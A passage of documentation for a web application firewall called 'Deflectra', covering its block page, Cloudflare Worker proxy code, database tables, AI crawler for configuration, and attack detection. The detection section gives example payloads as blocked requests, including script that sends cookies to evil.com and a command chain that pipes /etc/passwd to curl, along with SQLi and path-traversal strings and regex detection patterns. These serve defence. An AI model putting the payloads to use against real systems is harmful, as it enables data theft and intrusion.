  <title>Blocked by Deflectra WAF</title>
  <!-- All styles are inline — no external dependencies -->
</head>
<body>
  <div class="shield">[Animated SVG shield logo]</div>
  <span class="badge ${severity}">${severity.toUpperCase()}</span>
  <h1>Request Blocked</h1>
  <div class="details">
    <div class="detail-row">Reason: ${threatType}</div>
    <div class="detail-row">Rule: ${ruleName}</div>
    <div class="detail-row">Your IP: ${clientIp}</div>
    <div class="detail-row">Path: ${requestPath}</div>
    <div class="detail-row">Method: ${method}</div>
  </div>
  <footer>Protected by Deflectra WAF</footer>
</body>
</html>`;
```

**Step 3 — Dynamic Data Injection:**
The block page is personalized with:
- **Severity Badge** — Color-coded: critical (red), high (orange), medium (yellow), low (cyan)
- **Rule/Reason** — The specific rule that matched or AI classification
- **Attacker's IP** — Shown so they know they're identified
- **Blocked Path** — The exact URL that was rejected
- **Method** — GET, POST, PUT, DELETE

**Step 4 — HTTP Response:**
The block page is returned with:
```http
HTTP/1.1 403 Forbidden
Content-Type: text/html; charset=utf-8
X-Deflectra-Blocked: true
X-Deflectra-Rule: sql-injection-basic
```

**Step 5 — Real-Time Dashboard Alert:**
Simultaneously, the threat log insert triggers a Supabase Realtime event that pushes a toast notification to the dashboard (see Real-Time Block Notifications section).

### Block Page Visual Design

**Block Page Features:**
- Dark background (#0a0e1a) with subtle grid overlay
- Animated Deflectra shield logo (SVG with cyan/blue gradient and pulsing checkmark)
- Color-coded severity badge (critical=red, high=orange, medium=yellow, low=green)
- Gradient "Request Blocked" heading
- Details panel showing: Reason, Rule, Attacker IP, Path, Method
- "Protected by Deflectra WAF" footer with mini shield icon
- Fully self-contained HTML (no external dependencies)

The block page is generated server-side in the `waf-proxy` edge function and served with `Content-Type: text/html; charset=utf-8`.

### When Does the Block Page Appear?

The WAF only serves the branded block page when a request is **actively blocked** — meaning the request contained a recognizable attack pattern (SQL injection, path traversal, XSS, etc.) that triggered a rule or AI classification with action `blocked` or `challenged`.

**Common confusion:** Visiting a normal, clean URL through the Cloudflare Worker (e.g., `https://your-worker.workers.dev/api/auth/login` as a standard GET request) will **not** show the block page. The WAF inspects it, determines it is safe, and forwards it to your origin server. This is expected behavior — the WAF is designed to be invisible to legitimate traffic.

**To see the block page in action**, the request URL must contain an attack pattern that the WAF detects as malicious. Examples:

| Test URL | Attack Type | Why It Triggers |
|----------|------------|-----------------|
| `https://your-worker.workers.dev/api/admin/dump-database` | Suspicious path | Targets a sensitive administrative endpoint |
| `https://your-worker.workers.dev/api/users?id=1%20OR%201=1--` | SQL Injection | Classic SQLi payload in query parameter |
| `https://your-worker.workers.dev/.env` | Path Traversal / LFI | Attempts to access environment configuration files |
| `https://your-worker.workers.dev/api/config/secrets` | Sensitive data access | Targets secret/config exfiltration |

**Summary of WAF actions and block page behavior:**

| WAF Action | Block Page Shown? | What Happens |
|------------|-------------------|--------------|
| `blocked` | ✅ Yes | Request is rejected, attacker sees the branded block page (HTTP 403) |
| `challenged` | ✅ Yes | Request is challenged, block page is served pending verification |
| `logged` | ❌ No | Request is flagged as suspicious but forwarded to origin — recorded for review only |
| `allowed` | ❌ No | Request is clean and forwarded to origin normally — no block page is generated |

This distinction is reflected in the Deflectra dashboard: when expanding a detection in the AI Detection panel, only `blocked` or `challenged` entries show a "View Block Page" link. Entries with action `logged` or `allowed` display an explanation of why no block page was generated.

---

## Cloudflare Workers Integration

Cloudflare Workers provide the critical "edge interception" layer that makes Deflectra a true reverse proxy WAF. Without a Cloudflare Worker, you would need to manually update every API call in your application to route through the WAF proxy URL. With a Cloudflare Worker, **all traffic to your domain is automatically intercepted and inspected** before reaching your origin server.

### Why Cloudflare Workers?

| Without Worker | With Worker |
|----------------|-------------|
| Must manually update every fetch/API call in your codebase | Zero code changes — traffic is intercepted at the edge |
| Only protects specific endpoints you explicitly route | Protects **all** traffic to your domain automatically |
| Attackers can bypass WAF by calling origin directly | Origin is hidden — all requests must pass through WAF |
| Limited to API calls you control | Covers static assets, third-party integrations, everything |

### Architecture Role

Cloudflare Workers run at the edge (200+ data centers worldwide), sitting between the user's browser and your origin server. When a request arrives:

1. **Edge Interception** — Cloudflare's global network receives the HTTP request before it ever touches your origin
2. **Header Enrichment** — The worker extracts the real client IP from `CF-Connecting-IP` and passes it as `X-Forwarded-For` so Deflectra can log accurate source IPs
3. **WAF Forwarding** — The worker sends the full request (method, path, headers, body) to Deflectra's `waf-proxy` edge function
4. **Response Routing** — Based on Deflectra's verdict:
   - **Clean traffic** → The worker forwards the origin server's response back to the user
   - **Blocked traffic** → The worker returns Deflectra's branded block page (HTML) directly to the attacker



<p align="center"><em>Figure 1: Cloudflare Worker Traffic Flow — Complete request lifecycle from user through edge, WAF inspection, and back.</em></p>

### Traffic Flow Walkthrough

**Step 1 — User Request:** A user (or attacker) sends an HTTP request to your Cloudflare-proxied domain (e.g., `api.yoursite.com`).

**Step 2 — Edge Capture:** The Cloudflare Worker intercepts the request at the nearest edge location. It extracts:
- The request method (GET, POST, etc.)
- The full path including query string
- The request body (for POST/PUT/PATCH)
- The real client IP from `CF-Connecting-IP`
- The User-Agent header

**Step 3 — WAF Forwarding:** The worker constructs a request to Deflectra's `waf-proxy` edge function, including:
- `site_id` query parameter identifying your protected site
- `path` query parameter with the original request path
- `X-Forwarded-For` header with the real client IP
- `Authorization` and `apikey` headers for Supabase authentication
- The original request body

**Step 4 — WAF Inspection:** Deflectra runs the request through its 6-stage inspection pipeline (API Shield → Rate Limiting → Regex Rules → AI Analysis → Logging → Decision).

**Step 5a — If Blocked:** The WAF returns a 403 status with the branded block page HTML. The worker forwards this directly to the attacker — they see the "Access Denied" page.

**Step 5b — If Clean:** The WAF forwards the request to your origin server, gets the response, and returns it to the worker.

**Step 6 — Response Delivery:** The worker passes the final response (either the block page or the origin's response) back to the user with appropriate headers.

### Cloudflare Worker Code

The following worker is deployed on Cloudflare Workers to route traffic through Deflectra:

```javascript
export default {
  async fetch(request, env) {
    const url = new URL(request.url);
    const path = url.pathname + url.search;

    // Construct WAF proxy URL with site ID and path
    const wafProxyUrl = `https://mgveeoqkhthibpmmljxz.supabase.co/functions/v1/waf-proxy?site_id=052a39c2-c570-41f1-a340-50ca2f38ebef&path=${encodeURIComponent(path)}`;

    // Extract body for non-GET requests
    const body = ['GET', 'HEAD'].includes(request.method)
      ? undefined
      : await request.text();

    // Forward to Deflectra WAF proxy
    const wafResponse = await fetch(wafProxyUrl, {
      method: request.method,
      headers: {
        'Content-Type': request.headers.get('Content-Type') || 'application/json',
        'User-Agent': request.headers.get('User-Agent') || 'unknown',
        'X-Forwarded-For': request.headers.get('CF-Connecting-IP') || 'unknown',
        'Authorization': 'Bearer <SUPABASE_ANON_KEY>',
        'apikey': '<SUPABASE_ANON_KEY>',
      },
      body,
    });

    // Preserve binary data integrity (important for images, etc.)
    const responseBody = await wafResponse.arrayBuffer();

    // Return WAF response (either block page or origin response)
    return new Response(responseBody, {
      status: wafResponse.status,
      headers: {
        'Content-Type': wafResponse.headers.get('Content-Type') || 'text/html',
        'X-Deflectra-Action': wafResponse.headers.get('X-Deflectra-Action') || 'unknown',
        'X-Deflectra-Protected': 'true',
        'Access-Control-Allow-Origin': '*',
      },
    });
  },
};
```

### Configuration Details

| Header / Parameter | Purpose |
|--------------------|---------|
| `site_id` | Identifies your protected site in Deflectra's database |
| `path` | The original request path, URL-encoded |
| `X-Forwarded-For` | Real client IP from `CF-Connecting-IP` — critical for accurate threat logging and rate limiting |
| `Authorization` / `apikey` | Supabase anon key for edge function authentication |
| `X-Deflectra-Action` | Response header indicating `blocked` or `allowed` |
| `X-Deflectra-Protected` | Response header confirming request was inspected |

### Deployment Steps

1. **Create Worker** — Go to Cloudflare dashboard → Workers & Pages → Create Application
2. **Paste Code** — Copy the worker code above, replacing `<SUPABASE_ANON_KEY>` with your actual key
3. **Configure Route** — Add a route pattern like `api.yoursite.com/*` to your worker
4. **Verify** — Send a test request and check Deflectra's dashboard for the logged traffic

### Alternative: Direct Proxy (No Cloudflare)

If you don't want to use Cloudflare Workers, you can still use Deflectra by manually routing specific API calls through the proxy URL:

```javascript
// Instead of calling your API directly:
// fetch('https://api.yoursite.com/endpoint')

// Route through Deflectra:
fetch('https://mgveeoqkhthibpmmljxz.supabase.co/functions/v1/waf-proxy?site_id=YOUR_SITE_ID&path=/endpoint')
```

This approach requires updating your frontend code but works without Cloudflare.

---

## Setup Guide

The Setup Guide page (`/setup-guide`) provides step-by-step instructions for connecting any web application to Deflectra:

1. **Add Your Site** — Register the origin URL in Protected Sites
2. **Copy the Proxy URL** — Get the generated WAF proxy endpoint
3. **Configure Your App** — Point your application's API calls through the proxy URL
4. **Optional: Cloudflare Worker** — Deploy a worker for full traffic interception
5. **Verify** — Run the AI auto-setup to generate recommended rules

The setup guide includes copyable code blocks for each step.

---

## Settings & Configuration

The Settings page (`/settings`) provides global WAF configuration:

### Security Settings

| Setting | Options | Default |
|---------|---------|---------|
| Paranoia Level | Level 1 (Low) through Level 4 (Maximum) | Level 1 |
| Default Action | Block, Challenge, Log Only | Block |

### Notification Settings

| Setting | Description |
|---------|-------------|
| Webhook URL | Slack/Discord webhook for alerts |
| Alert Email | Email address for threat notifications |
| Resend API Key | API key for email delivery via Resend |

### Email Test

Users can send a test notification email to verify their Resend API key and alert email are configured correctly.

---

## Email Notifications

Deflectra supports email notifications via the Resend API through the `send-notification` edge function.

**Features:**
- Test email sending from Settings page
- Configurable alert email address
- Resend API key stored client-side (localStorage) for user privacy
- HTML-formatted emails with Deflectra branding

---

## Database Architecture



<p align="center"><em>Figure 1: Database Entity-Relationship Diagram — All seven tables and their relationships in the Deflectra WAF database.</em></p>

### Table Details

| Table | Purpose | RLS Policy |
|-------|---------|------------|
| `protected_sites` | Origin servers under WAF protection | Users can CRUD their own sites |
| `waf_rules` | Regex patterns for threat detection | Users can CRUD their own rules |
| `threat_logs` | All detected threats with full metadata | Users can INSERT and SELECT their own logs |
| `rate_limit_rules` | Per-IP rate limiting configuration | Users can CRUD their own rules |
| `rate_limit_hits` | Per-IP request counting for rate limits | Service role only (used by waf-proxy) |
| `api_endpoints` | Registered API endpoints with protections | Users can CRUD their own endpoints |
| `waf_settings` | Global WAF configuration per user | Users can INSERT, UPDATE, SELECT their own settings |

---

## Edge Functions Reference

| Function | Purpose | Trigger |
|----------|---------|---------|
| `waf-proxy` | Core reverse proxy — inspects and forwards/blocks requests | HTTP requests via Cloudflare Worker or direct call |
| `analyze-threat` | AI threat analysis sandbox — classifies test requests | Manual invocation from AI Detection page |
| `auto-setup-waf` | AI-powered rule generation — scans a site and creates rules | One-click from Protected Sites page |
| `send-notification` | Email delivery — sends alerts via Resend API | Settings page test button |
| `auto-generate-fields` | AI-powered form auto-fill — extracts endpoints from sites and generates configurations | "Generate with AI" buttons across all forms |

---

## AI Auto-Fill Configuration

Deflectra features an intelligent AI-powered auto-fill system that eliminates manual configuration by **actually crawling your web application** to extract real endpoint information and generating security configurations tailored to your app's architecture.

### Overview

Instead of manually entering request paths, methods, rate limits, and WAF rules, users can simply click a "Generate with AI" button. The system performs a **real HTTP crawl** of the protected site URL, extracts technology signatures, discovers API endpoints, and auto-generates appropriate security configurations based on actual site data.

### Supported Forms

The AI auto-fill feature is available in four key configuration areas:

| Form | What It Generates |
|------|-------------------|
| **AI Detection** | Attack simulation scenarios with realistic paths, methods, payloads, and user-agents |
| **Rate Limiting** | Rate limit rules for sensitive endpoints (login, signup, API, webhooks) |
| **API Shield** | Endpoint configurations with appropriate JWT, schema validation, and rate limiting toggles |
| **Rule Engine** | Custom WAF regex rules tailored to the app's tech stack and common attack vectors |

### How It Works — Real Site Crawling



<p align="center"><em>Figure 1: AI Auto-Fill Flow — Real HTTP crawling followed by AI analysis for accurate configuration generation.</em></p>

### Site Intelligence Extraction (Shared Crawler)

Both `auto-setup-waf` (site onboarding) and `auto-generate-fields` (per-field AI generation) use the same `fetchSiteIntelligence()` crawler function. This function performs a **real HTTP fetch** of the target site and extracts the following intelligence:

| Data Extracted | How It's Used |
|----------------|---------------|
| **Technologies Detected** | Tailors WAF rules to specific frameworks (React XSS patterns, Supabase SQL injection, etc.) |
| **API Endpoints** | Pre-populates path fields with actual discovered endpoints |
| **Meta Tags** | Identifies site purpose (SPA, SSR, e-commerce) for appropriate protection levels |
| **Script Sources** | Detects third-party integrations (Stripe, Auth0, analytics) requiring protection |
| **Form Actions** | Discovers POST endpoints for rate limiting and schema validation |
| **Link Hrefs** | Maps site structure for comprehensive endpoint coverage |

### Technology Detection

The crawler detects 25+ technologies by analyzing HTML content and script sources:

| Category | Technologies Detected |
|----------|----------------------|
| **Frontend Frameworks** | React, Vue.js, Angular, Next.js, Nuxt.js, Svelte |
| **Backend/BaaS** | Supabase, Firebase, Prisma, tRPC |
| **Hosting** | Vercel, Netlify, Cloudflare, AWS |
| **CMS/E-commerce** | WordPress, Shopify |
| **Auth Providers** | Auth0, Clerk |
| **Payments** | Stripe |
| **CSS Frameworks** | Tailwind CSS, Bootstrap |
| **API Styles** | GraphQL, REST |
| **Databases** | MongoDB, PostgreSQL |
| **Monitoring** | Google Analytics, Sentry, Datadog |

### Technical Implementation

The `auto-generate-fields` edge function accepts these parameters:

| Parameter | Type | Description |
|-----------|------|-------------|
| `site_url` | string | The URL of the protected site to analyze |
| `context` | enum | One of: `ai_detection`, `rate_limiting`, `api_shield`, `rule_engine` |
| `field` | string (optional) | Specific field to regenerate (for per-field generation) |

**Response includes:**
```json
{
  "success": true,
  "data": { /* generated configurations */ },
  "discovered": {
    "technologies": ["React", "Supabase", "Tailwind CSS"],
    "endpoints": ["/api/auth/login", "/functions/v1/chatbot", "/api/contact"]
  }
}
```

### Context-Specific Generation

**AI Detection Context:**
Generates 5+ realistic attack simulation scenarios based on crawl data:
- Request paths targeting **actually discovered** endpoints
- HTTP methods matched to endpoint purpose
- Malicious request bodies (SQLi, XSS payloads) targeting detected tech stack
- Realistic attacker user-agents

**Rate Limiting Context:**
Generates rate limit rules for:
- **Discovered** authentication endpoints
- **Detected** API endpoints with appropriate request limits
- Webhook handlers with stricter limits
- Public endpoints with relaxed limits

**API Shield Context:**
Generates endpoint configurations with:
- **Actual paths** discovered from crawl
- JWT inspection enabled for authenticated routes
- Schema validation for POST/PUT endpoints
- Rate limiting flags for sensitive operations

**Rule Engine Context:**
Generates WAF rules including:
- SQLi patterns tailored to the **detected database type**
- XSS patterns for the **detected frontend framework**
- RCE patterns for the **detected backend language**
- LFI patterns based on the **discovered server environment**
- Custom rules based on discovered vulnerabilities

### User Experience

1. User opens any configuration form (AI Detection, Rate Limiting, API Shield, or Rule Engine)
2. User selects a protected site from the dropdown
3. User clicks the "Generate with AI" button (sparkles icon)
4. A loading spinner indicates site crawling and AI analysis is in progress
5. Form fields are automatically populated with generated values
6. **NEW:** A "Discovered" section shows detected technologies and endpoints
7. User can review, modify, and save the configuration

### Per-Field AI Regeneration

In addition to generating all fields at once, users can regenerate **individual fields** by clicking the sparkle (✨) button next to any input. This triggers a fresh crawl of the site and regenerates only the selected field.

**How Per-Field Generation Works:**
1. Click the sparkle icon (✨) next to any form input (e.g., "Path", "Method", "Pattern")
2. The edge function **re-crawls** your protected site to get fresh data
3. Only the selected field is regenerated — other fields remain untouched
4. The AI uses **Google Gemini 3 Flash** with real crawl data for accurate recommendations

**Example:** In API Shield, you can regenerate just the "Path" field to discover a new endpoint while keeping your existing method and toggle settings.

### AI-Generated Field Indicators

Fields populated by AI are visually distinguished from manually entered values:

| Indicator | Appearance |
|-----------|------------|
| AI Badge | Purple "AI" badge next to the input label |
| Border Styling | Fields have a subtle primary-colored ring (`ring-primary/20`) |
| Automatic Clearing | Indicators disappear when the user manually edits the field |

This makes it easy to see at a glance which configurations were AI-generated vs manually configured.

### AI Model Used

All AI auto-fill features (both full-form and per-field generation) use **Google Gemini 3 Flash** (`google/gemini-3-flash-preview`) via the Lovable AI Gateway. The model is invoked through the `auto-generate-fields` edge function with:
1. **Real crawl data** from HTTP fetch of the target site
2. **Structured tool calling** to ensure type-safe JSON responses

### Crawler Technical Details

The `fetchSiteIntelligence()` function in the edge function:

```typescript
// User-Agent identifies Deflectra crawler
"User-Agent": "Deflectra-WAF-Crawler/1.0 (Security Analysis)"

// Extracts data using regex patterns:
// - Meta tags: <meta name="..." content="...">
// - Script sources: <script src="...">
// - Form actions: <form action="...">
// - Links: <a href="...">
// - Inline scripts (limited to 5, max 500 chars each)

// API endpoint patterns detected:
// - /api/*
// - /functions/v1/*
// - /rest/v1/*
// - /graphql
// - /v[0-9]+/*
// - /auth/*

// HTML limited to 50KB for LLM context efficiency
```

### Edge Cases

- **No Protected Sites:** The generate button is disabled with a tooltip explaining a site must be added first
- **Site Unreachable:** AI falls back to tech-stack-based generation using detected patterns from URL structure
- **Generation Failure:** An error toast is shown and form fields remain empty for manual input
- **Partial Generation:** Any successfully generated fields are populated; missing fields remain editable

### Benefits

| Manual Configuration | AI Auto-Fill with Real Crawling |
|---------------------|--------------------------------|
| 5-10 minutes per rule | 5 seconds per batch |
| Requires security expertise | AI applies best practices automatically |
| Easy to miss endpoints | **Real HTTP crawl** discovers actual endpoints |
| Generic patterns | Patterns tailored to **detected** tech stack |
| All-or-nothing generation | Per-field regeneration for fine-tuning |
| Guesswork about tech stack | **Actual** technology detection from site content |

---

## Security Controls & RLS Policies

Every table in Deflectra has Row-Level Security (RLS) enabled with policies ensuring strict data isolation:

- **SELECT** — `auth.uid() = user_id` — Users can only read their own data
- **INSERT** — `auth.uid() = user_id` — Users can only create records with their own user_id
- **UPDATE** — `auth.uid() = user_id` — Users can only modify their own records
- **DELETE** — `auth.uid() = user_id` — Users can only delete their own records

The `rate_limit_hits` table uses a `false` policy (service role only) since it's only accessed by the `waf-proxy` edge function using the service role key.

The `waf-proxy` edge function uses the `SUPABASE_SERVICE_ROLE_KEY` to bypass RLS when logging threats and counting rate limit hits, since these operations occur on behalf of the site owner (not the attacking user).

---

## Attack Detection — In-Depth

Deflectra detects a wide range of web application attacks through its multi-layered inspection pipeline. This section documents every attack type, how Deflectra identifies it, and the specific patterns used.

### SQL Injection (SQLi)

SQL injection is the most common web application attack. Attackers inject SQL syntax into user inputs to manipulate database queries, extract data, or bypass authentication.

**How Deflectra Detects It:**

1. **Regex Rule Engine** — Pre-configured rules match known SQLi patterns in request paths and bodies:
   - `' OR 1=1 --` — Classic tautology-based bypass
   - `UNION SELECT` — Column extraction via UNION queries
   - `'; DROP TABLE` — Destructive stacked queries
   - `1; EXEC xp_cmdshell` — SQL Server command execution
   - `SLEEP(5)` / `BENCHMARK()` — Time-based blind injection
   - `LOAD_FILE()` / `INTO OUTFILE` — File read/write via SQL
   - `information_schema` / `sys.tables` — Schema enumeration

2. **AI Layer** — If no regex pattern matches, Google Gemini 3 Flash analyzes the request payload for semantic SQLi patterns that may evade regex (e.g., encoding tricks, comment-based obfuscation like `/*!UNION*/SELECT`).

**Pre-Configured Regex Patterns:**

```regex
(?:'|"|;)\s*(OR|AND)\s+\d+\s*=\s*\d+
UNION\s+(ALL\s+)?SELECT
;\s*(DROP|ALTER|CREATE|TRUNCATE)\s+
(SLEEP|BENCHMARK|WAITFOR)\s*\(
(LOAD_FILE|INTO\s+(OUT|DUMP)FILE)
(information_schema|sys\.(tables|columns|objects))
```

**Example Blocked Request:**
```
POST /api/login
Body: { "username": "admin' OR 1=1 --", "password": "x" }
→ Blocked by regex rule "SQL Injection — Tautology" (severity: critical)
```

### Cross-Site Scripting (XSS)

XSS attacks inject malicious scripts into web pages viewed by other users, enabling session hijacking, defacement, and credential theft.

**How Deflectra Detects It:**

1. **Regex Rule Engine** — Matches common XSS vectors:
   - `<script>` tags — Classic reflected/stored XSS
   - Event handlers — `onerror=`, `onload=`, `onmouseover=`
   - `javascript:` URI scheme — Protocol-based injection
   - `eval()`, `document.cookie`, `document.write()` — DOM manipulation
   - `` — Image tag vector
   - `<svg onload=...>` — SVG-based XSS
   - Base64 encoded payloads — `data:text/html;base64,...`

2. **AI Layer** — Catches obfuscated XSS such as character encoding (`&#x3C;script&#x3E;`), string concatenation, and novel DOM clobbering techniques.

**Pre-Configured Regex Patterns:**

```regex
<script[^>]*>
(onerror|onload|onmouseover|onfocus|onclick)\s*=
javascript\s*:
(eval|setTimeout|setInterval|Function)\s*\(
document\.(cookie|write|location)
<(img|svg|iframe|object|embed)\s+[^>]*(onerror|onload|src\s*=\s*['"]?javascript)
```

**Example Blocked Request:**
```
POST /api/search
Body: { "query": "<script>fetch('https://evil.com/steal?c='+document.cookie)</script>" }
→ Blocked by regex rule "XSS — Script Injection" (severity: high)
```

### Remote Code Execution (RCE)

RCE attacks attempt to execute arbitrary commands on the server by injecting system commands into application inputs.

**How Deflectra Detects It:**

1. **Regex Rule Engine** — Matches shell command patterns:
   - `eval()`, `exec()`, `system()` — PHP/Python command execution
   - `child_process`, `spawn`, `require('child_process')` — Node.js process spawning
   - `; cat /etc/passwd` — Command chaining via semicolons
   - `| ls -la` — Pipe-based command injection
   - Backtick execution — `` `whoami` ``
   - `$()` subshell — `$(cat /etc/shadow)`
   - `curl ... | bash` — Remote script download and execution

2. **AI Layer** — Detects sophisticated command injection using encoding, variable expansion, or context-specific payloads.

**Pre-Configured Regex Patterns:**

```regex
(eval|exec|system|passthru|shell_exec|popen)\s*\(
(child_process|spawn|execSync)\s*[\(\.]
[;|&`]\s*(cat|ls|whoami|id|uname|curl|wget|nc|ncat|bash|sh|python|perl|ruby)
\$\([^)]+\)
```

**Example Blocked Request:**
```
POST /api/convert
Body: { "filename": "image.png; cat /etc/passwd | curl https://evil.com -d @-" }
→ Blocked by regex rule "RCE — Command Chaining" (severity: critical)
```

### Local File Inclusion / Path Traversal (LFI)

LFI attacks manipulate file paths to read sensitive files from the server's filesystem, such as configuration files, password databases, or application source code.

**How Deflectra Detects It:**

1. **Regex Rule Engine** — Matches directory traversal sequences:
   - `../` and `..\` — Unix and Windows path traversal
   - `/etc/passwd`, `/etc/shadow` — Linux credential files
   - `C:\Windows\system.ini` — Windows system files
   - `/proc/self/environ` — Linux environment variables
   - `php://filter`, `php://input` — PHP stream wrappers
   - `file:///` — File URI scheme
   - Null byte injection — `%00` to bypass extension checks

2. **AI Layer** — Catches encoded traversal sequences (`%2e%2e%2f`), double encoding, and context-specific file access attempts.

**Pre-Configured Regex Patterns:**

```regex
(\.\./|\.\.\\){2,}
(/etc/(passwd|shadow|hosts|group|sudoers))
(C:\\|\\\\)(Windows|WINNT|boot\.ini)
/proc/self/(environ|cmdline|maps)
(php|data|expect|zip|phar)://
%00
```

**Example Blocked Request:**
```
GET /api/download?file=../../../../etc/passwd
→ Blocked by regex rule "LFI — Path Traversal" (severity: high)
```

### Bot / Scraper Detection

Deflectra identifies automated tools and headless browsers attempting to scrape content or perform automated attacks.

**How Deflectra Detects It:**

1. **AI Layer** — Gemini 3 Flash analyzes the `User-Agent` header and request patterns:
   - Known bot signatures (Scrapy, Selenium, PhantomJS, Headless Chrome)
   - Missing or malformed User-Agent headers
   - Abnormal request timing patterns
   - Requests to sensitive paths without normal browsing context

2. **Rate Limiting** — Bots typically send high-frequency requests, which trigger per-IP rate limits.

### Brute Force Attacks

Brute force attacks attempt to guess credentials by sending many login requests with different username/password combinations.

**How Deflectra Detects It:**

1. **Rate Limiting** — Pre-configured rules for authentication paths:
   - Default: 10 requests per 60 seconds to `/login`, `/auth`, `/api/login`
   - Each request from the same IP is counted in `rate_limit_hits`
   - Exceeding the threshold blocks the IP for the remainder of the window

2. **AI Layer** — Detects patterns like sequential password attempts or credential stuffing payloads.

### JWT Token Attacks

Attackers may attempt to bypass authentication by sending forged, expired, or missing JWT tokens.

**How Deflectra Detects It (API Shield):**

1. **Missing Token** — Requests to JWT-protected endpoints without an `Authorization: Bearer <token>` header are blocked
2. **Malformed Token** — Tokens that cannot be base64-decoded or don't have the standard 3-part JWT structure are rejected
3. **Expired Token** — The `exp` claim is checked against the current timestamp; expired tokens are blocked
4. **Structure Validation** — Validates that the decoded payload is valid JSON

### Schema Violation Attacks

Malformed payloads can crash applications or exploit deserialization vulnerabilities.

**How Deflectra Detects It (API Shield):**

1. **Invalid JSON** — POST/PUT/PATCH bodies that fail `JSON.parse()` are blocked
2. **Non-Object Payloads** — Primitives (strings, numbers, null) sent as JSON bodies are rejected
3. **Oversized Payloads** — Bodies exceeding 1MB are blocked to prevent denial-of-service via large payload processing
4. **Content-Type Mismatch** — Requests claiming `application/json` but sending invalid data are caught

---

## Future Integrations & Improvements

Deflectra's current architecture provides a strong foundation for web application security. The following enhancements represent the next phase of development to bring the platform closer to enterprise-grade, production-hardened WAF capabilities.

---

### 1. Persistent Rate Limiting via Cloudflare KV / Durable Objects

**Current Limitation:** Rate limiting state is stored in-memory within each Cloudflare Worker instance. This means counters reset on cold starts and are not shared across Cloudflare's global edge network — an attacker hitting different PoPs (Points of Presence) could bypass per-IP limits.

**Planned Improvement:** Integrate **Cloudflare KV** (for eventually-consistent, high-read workloads) or **Durable Objects** (for strongly-consistent, per-IP counters) to persist rate limit state globally.

<p align="center"><em>Figure 1: Persistent Rate Limiting Architecture</em></p>

```
┌──────────────────────────────────────────────────────┐
│                 Cloudflare Edge Network               │
│                                                       │
│   Worker Instance A ──┐                               │
│   Worker Instance B ──┼──► Durable Object (per-IP) ──►│ Block / Allow
│   Worker Instance C ──┘    ┌─────────────────┐       │
│                            │ Counter: 47/50  │       │
│                            │ Window: 60s     │       │
│                            │ Last Reset: ... │       │
│                            └─────────────────┘       │
└──────────────────────────────────────────────────────┘
```

**Impact:** True global rate limiting that survives instance restarts and works consistently across all edge locations worldwide.

---

### 2. DNS-Level Traffic Routing

**Current Limitation:** The Cloudflare Worker WAF only protects traffic that is explicitly routed through it. If an attacker discovers the origin server's IP address, they can bypass the WAF entirely.

**Planned Improvement:** Provide guided DNS configuration so that the protected site's domain resolves directly to the Cloudflare Worker route, ensuring **all** inbound traffic passes through Deflectra's inspection pipeline.

<p align="center"><em>Figure 2: DNS-Level Routing Flow</em></p>

```
User Request
    │
    ▼
DNS Lookup (example.com)
    │
    ▼
Cloudflare Worker (deflectrawaf.codeworker.workers.dev)
    │
    ├── Inspect ──► Block (serve block page)
    │
    └── Allow ──► Forward to Origin (hidden IP)
```

**Impact:** Eliminates origin IP exposure and guarantees 100% traffic inspection coverage.

---

### 3. IP Reputation Scoring & Geo-Blocking

**Current Limitation:** Deflectra evaluates each request independently without historical context about the source IP's behavior or geographic risk profile.

**Planned Improvement:** Integrate external threat intelligence feeds (e.g., AbuseIPDB, IPQualityScore, or Cloudflare's own threat score) to assign reputation scores to source IPs. Additionally, provide configurable geo-blocking rules to restrict traffic from high-risk regions.

<p align="center"><em>Figure 3: IP Reputation Pipeline</em></p>

```
Incoming Request (IP: 203.0.113.42)
    │
    ▼
┌─────────────────────────┐
│   IP Reputation Lookup  │
│                         │
│  AbuseIPDB Score: 87%   │
│  Country: CN            │
│  ASN: Known VPN/Proxy   │
│  Previous Blocks: 12    │
│                         │
│  Risk Score: HIGH (0.87)│
└────────┬────────────────┘
         │
         ▼
   Score > Threshold? ──► Block + Log
         │
         No
         ▼
   Continue WAF Pipeline
```

**Impact:** Proactive threat prevention based on historical behavior rather than purely reactive pattern matching.

---

### 4. Real-Time Attack Logging Pipeline

**Current Limitation:** Blocked requests are logged to the Supabase database from the edge function, but there is latency between the block event and dashboard visibility. The Cloudflare Worker logs independently.

**Planned Improvement:** Implement a real-time streaming pipeline from the Cloudflare Worker directly to the Deflectra dashboard using **Supabase Realtime** or **WebSocket push**. Every blocked request would appear in the threat table and on the 3D globe within milliseconds.

<p align="center"><em>Figure 4: Real-Time Logging Architecture</em></p>

```
Cloudflare Worker (Block Event)
    │
    ├──► Supabase Insert (threat_logs) ──► Realtime Channel
    │                                          │
    │                                          ▼
    │                                   Dashboard WebSocket
    │                                          │
    │                                          ▼
    │                                   ┌──────────────┐
    │                                   │ Threat Table  │
    │                                   │ 3D Globe Pin  │
    │                                   │ Notification  │
    │                                   └──────────────┘
    │
    └──► Cloudflare Logpush (optional, for archival)
```

**Impact:** Zero-latency visibility into active attacks with live geographic visualization on the threat globe.

---

### 5. L7 DDoS Mitigation & Adaptive Throttling

**Current Limitation:** Cloudflare provides built-in L3/L4 DDoS protection, but Layer 7 (application-layer) floods — such as HTTP GET/POST floods — require custom logic to detect and mitigate.

**Planned Improvement:** Implement adaptive throttling that detects traffic spikes per path or per IP and automatically escalates from rate limiting to CAPTCHA challenges to full IP blocking based on request velocity.

<p align="center"><em>Figure 5: Adaptive Throttling Escalation</em></p>

```
Requests/sec from IP
    │
    0-50    ──► Normal (Allow)
    50-100  ──► Rate Limited (Throttle)
    100-500 ──► CAPTCHA Challenge
    500+    ──► Full IP Block (24h TTL)
```

**Impact:** Automated defense escalation that adapts to attack intensity without manual intervention.

---

### 6. Webhook & SIEM Integration

**Current Limitation:** Alerts are delivered via in-app notifications and optional email. There is no integration with external security monitoring platforms.

**Planned Improvement:** Add configurable webhook endpoints and native integrations with popular SIEM platforms (Splunk, Datadog, PagerDuty, Slack) so that security teams can ingest Deflectra events into their existing monitoring workflows.

**Impact:** Enterprise-ready incident response integration for SOC teams.

---

### 7. Custom Block Page Builder

**Current Limitation:** The block page design is hardcoded in the Cloudflare Worker and WAF Proxy edge function.

**Planned Improvement:** Provide a visual drag-and-drop block page builder within the dashboard, allowing users to customize branding, messaging, and severity-specific page variants. Block page templates would be stored per-site and served dynamically.

**Impact:** White-label WAF capability for agencies and multi-tenant deployments.

---

## Conclusion

